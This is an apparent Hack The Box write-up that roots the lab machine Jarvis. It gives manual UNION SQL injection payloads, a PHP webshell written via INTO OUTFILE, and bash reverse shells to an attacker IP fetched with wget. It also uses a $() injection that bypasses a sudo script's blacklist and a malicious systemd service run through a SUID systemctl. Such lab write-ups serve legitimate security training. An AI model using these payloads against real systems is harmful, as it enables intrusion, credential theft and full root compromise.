







# How I Rooted HTB Jarvis: SQLi, Command Injection, and Everything I Got Wrong Along the Way

> A step-by-step walkthrough of HTB Jarvis — from a numeric SQL injection parameter to root through manual enumeration, filter bypass, and a misconfigured SUID binary.

---

## Machine Overview


Jarvis is a Medium-rated Linux machine on Hack The Box that covers a realistic attack chain you will encounter on the OSCP exam.

The machine starts with a manually exploitable SQL injection — no sqlmap, no automation — requiring you to enumerate the database step by step, understand the structure, and write a webshell directly to the server. From there it chains into command injection via a sudo misconfiguration, where a developer's blacklist has one critical gap. The final escalation abuses a SUID systemctl binary to create a malicious service that executes as root.

**Techniques covered:**
- Manual SQL injection (UNION-based)
- Database enumeration via `information_schema`
- Webshell write via `INTO OUTFILE`
- Command injection with filter bypass (`$()`)
- Sudo lateral movement
- SUID systemctl privilege escalation

If you are preparing for OSCP, this machine is worth your time — it punishes automation and rewards understanding each step before moving to the next.

---

## Reconnaissance

### Port Scan

```
nmap -sC -sV -Pn 10.129.47.222
```



The scan revealed two open ports:

| Port | Service | Version |
|------|---------|---------|
| 22 | SSH | OpenSSH 7.4p1 Debian |
| 80 | HTTP | Apache 2.4.25 |

SSH is rarely the entry point on OSCP-style machines without credentials, so the focus immediately shifts to port 80. One thing worth noting — the `httponly` flag is not set on the session cookie, which could allow cookie theft via XSS. Not relevant here, but always worth flagging during enumeration.

### Web Enumeration


Navigating to `http://10.129.47.222` reveals **Stark Hotel** — a hotel booking web application. Browsing the site, the room listing page stands out immediately:

```
http://10.129.47.222/room.php?cod=1
```

A numeric `cod` parameter passed directly in the URL, likely used to query a database for room details. This is a classic SQL injection candidate — any parameter that looks up a record by ID is worth testing.

---

## SQL Injection — Manual Exploitation

### Confirming the Vulnerability

The first test is always a single quote. Appending `'` to the `cod` parameter returned an empty page instead of a room — no error message, but the content disappeared. That's enough to confirm the parameter is injectable.



### Finding the Column Count

With injection confirmed, the next step is determining how many columns the query returns — required for a valid UNION attack.

Using `ORDER BY` and incrementing by one until the page breaks:

```
/room.php?cod=4 ORDER BY 7--   <- page loads normally
/room.php?cod=4 ORDER BY 8--   <- page breaks
```

**7 columns.** The query dies on 8, so the original SELECT returns exactly 7.

### Finding the Visible Column

Before testing which column is visible on the page, there is a critical detail to get right — the original query returns a real room for `cod=4`. That real row will always render first, making any UNION output invisible behind it.

The fix: use a `cod` value that returns no rows, so the UNION result is the only thing the page has to display.

```
/room.php?cod=999 UNION SELECT NULL,NULL,NULL,'VISIBLE',NULL,NULL,NULL--
```


Column 4 is our output column.

### Fingerprinting the Database

```
/room.php?cod=999 UNION SELECT NULL,NULL,NULL,version(),NULL,NULL,NULL--
```

```
10.1.48-MariaDB-0+deb9u2
```

MariaDB — a MySQL fork. All standard MySQL enumeration techniques apply.

### Enumerating Databases and Tables

```
/room.php?cod=999 UNION SELECT NULL,NULL,NULL,group_concat(schema_name),NULL,NULL,NULL FROM information_schema.schemata--
```

```
hotel, information_schema, mysql, performance_schema
```

The `hotel` database stands out. Enumerating its columns:

```
/room.php?cod=999 UNION SELECT NULL,NULL,NULL,group_concat(column_name),NULL,NULL,NULL FROM information_schema.columns WHERE table_schema='hotel'--
```

```
cod, name, price, descrip, star, image, mini
```

These are the room columns — exactly the 7 columns we found earlier. Nothing useful for escalation here.

### Writing a Webshell via INTO OUTFILE

MySQL's `INTO OUTFILE` clause writes query output directly to a file on the server. If the database user has `FILE` privilege and we know the web root, we can write a PHP webshell. We will start with the default Apache web root on Debian-based systems — `/var/www/html/`:

```
/room.php?cod=999 UNION SELECT NULL,NULL,NULL,'<?php system($_GET["cmd"]); ?>',NULL,NULL,NULL INTO OUTFILE '/var/www/html/shell.php'--
```

No error. Confirming it works:

```
/shell.php?cmd=whoami
```



We have code execution as `www-data`.

### Upgrading to a Reverse Shell

Serving a reverse shell script from our Kali machine and executing it through the webshell:

**Kali:**
```bash
cat revshell
bash -c 'bash -i >& /dev/tcp/10.10.15.38/80 0>&1'

python3 -m http.server 80
```

**Upload and trigger:**
```
/shell.php?cmd=wget 10.10.15.38/revshell -O /tmp/revshell
/shell.php?cmd=chmod +x /tmp/revshell
/shell.php?cmd=bash /tmp/revshell
```



---

## Lateral Movement — www-data to pepper

### Credentials in Configuration Files

With a shell as `www-data`, the first thing worth checking is the web application's database configuration. PHP apps almost always store credentials in a connection file:

```bash
cat /var/www/html/connection.php
```

```php
$connection=new mysqli('127.0.0.1','DBadmin','imissyou','hotel');
```

Checking `/home` reveals only one user — `pepper`. When there is a single non-root user on a machine, it is a strong signal that getting their shell is the next step. The natural first attempts are `su pepper` and SSH login with the credentials we found — both fail. Password reuse did not work here.

### Sudo Misconfiguration

When direct credential reuse fails, check what the current user can run with elevated privileges:

```bash
sudo -l
```

```
User www-data may run the following commands on jarvis:
    (pepper : ALL) NOPASSWD: /var/www/Admin-Utilities/simpler.py
```

This is often misread — `(pepper : ALL)` means `www-data` can execute this script **as pepper**, without a password. Reading the script source:

```bash
cat /var/www/Admin-Utilities/simpler.py
```

The `-p` flag triggers a ping function that takes user input and passes it directly to `os.system()`. There is a blacklist:

```python
forbidden = ['&', ';', '-', '`', '||', '|']
```

The developer blocked the obvious separators but missed `$()` — bash's command substitution syntax. The shell evaluates whatever is inside `$()` before executing the main command, completely bypassing the filter.

### Exploiting the Command Injection

Because special characters in an inline payload could break the injection, we write a reverse shell script to `/tmp` first and execute it separately:

```bash
echo 'bash -c "bash -i >& /dev/tcp/10.10.15.38/1337 0>&1"' > /tmp/shell.sh
chmod +x /tmp/shell.sh
```

Then trigger the injection:

```bash
sudo -u pepper /var/www/Admin-Utilities/simpler.py -p
```

When prompted for an IP:

```
$(/tmp/shell.sh)
```



---

## Privilege Escalation — pepper to root

### Enumerating with LinPEAS

Running LinPEAS as pepper surfaces an interesting finding highlighted in yellow/red:



```
-rwsr-x--- 1 root pepper 171K Jun 29 2022 /bin/systemctl
```

The `s` in the permissions means SUID — when executed, this binary runs as its owner, which is `root`. The group is `pepper`, meaning only pepper can execute it. We are pepper. This is our vector.

### Abusing SUID systemctl

`systemctl` manages systemd services. With SUID root, any service we create and start will execute its commands as root.

The exploitation technique for abusing a SUID `systemctl` binary is well documented — we referenced [this article by klockw3rk](https://medium.com/@klockw3rk/privilege-escalation-leveraging-misconfigured-systemctl-permissions-bc62b0b28d49) to understand the approach.

We create a malicious service file on our Kali machine:

```
[Unit]
Description=root

[Service]
Type=simple
User=root
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/10.10.15.38/1437 0>&1'

[Install]
WantedBy=multi-user.target
```

Transfer it to the target:

```bash
wget 10.10.15.38/root.service
```

Enable and start it using the SUID binary:

```bash
/bin/systemctl enable /var/www/html/root.service
/bin/systemctl start root
```

Start a listener on Kali:

```bash
nc -lnvp 1437
```



**We got a root shell!**

---

## What I Learned

**SQL injection scope matters.** Querying `information_schema.columns` by table name alone without specifying `table_schema` can return results from the wrong database entirely. Always scope with `WHERE table_schema='target_db' AND table_name='target_table'`.

**`cod=999` is not obvious until it is.** When a real row exists, the page renders it and your UNION output is invisible behind it. Using a non-existent ID forces the app to display only your injected data. Two layers must work — SQL and the application rendering it.

**`sudo -l` is for your current user, not just privileged ones.** I almost skipped it as `www-data` assuming it would be empty. It revealed the ability to run a script as `pepper` without a password — the entire lateral movement path.

**Blacklists are only as strong as their completeness.** The `simpler.py` filter blocked `;`, `&`, `|`, and backticks but missed `$()`. When you see a blacklist, enumerate what is missing, not just what is blocked.

**SUID on system binaries is dangerous.** `systemctl` with a SUID bit means any service you create and start runs as root. It is not an obvious vector at first glance — knowing what LinPEAS output to look for made the difference.
